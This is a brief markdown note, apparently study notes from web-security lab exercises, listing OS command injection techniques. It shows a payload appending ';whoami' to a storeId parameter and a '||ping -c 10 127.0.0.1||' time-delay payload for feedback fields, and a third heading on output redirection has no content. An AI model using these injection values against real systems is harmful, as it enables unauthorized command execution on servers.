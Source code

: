 # 1 OS command injection, simple case

productId=2&storeId=1;whoami


# 2 Blind OS command injection with time delays

on the feedback page change parameters with 

	||ping -c 10 127.0.0.1||
	
# 3 Blind OS command injection with output redirection